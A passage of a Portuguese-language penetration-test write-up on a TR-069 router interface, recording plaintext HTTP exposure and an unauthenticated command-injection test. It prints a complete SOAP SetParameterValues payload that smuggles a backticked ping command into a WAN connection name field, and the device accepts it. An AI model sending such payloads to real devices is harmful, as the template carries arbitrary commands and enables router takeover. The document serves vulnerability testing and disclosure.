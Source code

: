 - Comunicação via HTTP em texto plano, dados capturados facilmente via Wireshark.
![Wireshark](prints/13.png)

- Risco crítico de exposição de dados.

## 📄 Etapa 9 – Teste Passivo de RCE via SOAP (rce.xml)

Envio de payload SOAP com comando SetParameterValues simulando injeção de comando ping -c 1 8.8.8.8.

Resposta HTTP 204 (No Content) indica aceitação do comando sem erro.

rce.xml:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<SOAP-ENV:Envelope
  xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/"
  xmlns:xsd="http://www.w3.org/2001/XMLSchema"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xmlns:cwmp="urn:dslforum-org:cwmp-1-0">
  <SOAP-ENV:Header>
    <cwmp:ID SOAP-ENV:mustUnderstand="1">987654321</cwmp:ID>
  </SOAP-ENV:Header>
  <SOAP-ENV:Body>
    <cwmp:SetParameterValues>
      <ParameterList SOAP-ENC:arrayType="cwmp:ParameterValueStruct[1]"
        xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/">
        <ParameterValueStruct>
          <Name>InternetGatewayDevice.WANDevice.1.WANConnectionDevice.1.WANIPConnection.1.Name</Name>
          <Value xsi:type="xsd:string">`ping -c 1 8.8.8.8`</Value>
        </ParameterValueStruct>
      </ParameterList>
      <ParameterKey>rce-test</ParameterKey>
    </cwmp:SetParameterValues>
  </SOAP-ENV:Body>
</SOAP-ENV:Envelope>
```

![rce.xml](prints/14.png)
![Wireshark](prints/15.png)

### 🧪 Comportamentos observados:

| Campo Alvo                | Status HTTP retornado     | Observações Técnicas                       |
| --------------------------|---------------------------|--------------------------------------------|
| `.WANIPConnection.1.Name` | `HTTP/1.1 204 No Content` | Payload aceito. Indica parsing e aceitação |

- Aceitação de payloads SOAP arbitrários sem autenticação.
- Padrão similar a múltiplas CVEs históricas de RCE via TR-069.

